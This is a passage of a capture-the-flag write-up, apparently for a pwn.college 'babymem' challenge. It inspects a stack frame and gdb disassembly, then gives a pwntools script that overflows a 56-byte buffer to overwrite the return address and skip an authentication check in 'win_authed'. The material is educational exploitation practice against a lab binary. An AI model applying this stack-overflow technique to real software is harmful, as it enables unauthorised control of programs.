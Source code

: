 ```
            | 0x00007ffe14fb87b8 (rsp+0x0068) | 8e 1e 40 00 00 00 00 00 | 0x0000000000401e8e | <------- return address
	    +---------------------------------+-------------------------+--------------------+
```

* Let's look at the `win_authed` function in `gdb`.

```
gef➤  disass win_authed
Dump of assembler code for function win_authed:
   0x00000000004016c4 <+0>:     endbr64 
   0x00000000004016c8 <+4>:     push   rbp
   0x00000000004016c9 <+5>:     mov    rbp,rsp
   0x00000000004016cc <+8>:     sub    rsp,0x10
   0x00000000004016d0 <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x00000000004016d3 <+15>:    cmp    DWORD PTR [rbp-0x4],0x1337
   0x00000000004016da <+22>:    jne    0x4017d2 <win_authed+270>
   0x00000000004016e0 <+28>:    lea    rdi,[rip+0xa09]        # 0x4020f0
   ; -- snip --
```

* We can see that the instruction at `0x00000000004016d3` is performing the check and the next instruction is making the jump.
* In order to skip the check, we have to set the return address to `0x00000000004016e0`.
* Before we do that we need to know the distance between the start of the buffer and location of return address.

```
Buffer:                           Random bytes:                     Return address:

00 00 00 00 00 00 00 00           d0 11 40 00 00 00 00 00          8e 1e 40 00 00 00 00 00
00 00 00 00 00 00 00 00           80 87 fb 14 fe 7f 00 00
00 00 00 00 00 00 00 00           e0 97 fb 14 fe 7f 00 00
00 00 00 00 00 00 00 00           
```

* As we can see the distance is `56` bytes. This means we need `56` bytes of padding in order to overwrite the return address.

```python
from pwn import *

padding = b'A' * 56
payload = padding + p64(0x00000000004016e0)

p = process('/challenge/babymem_level6.0')
p.recvuntil('size:')
p.sendline('500')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```

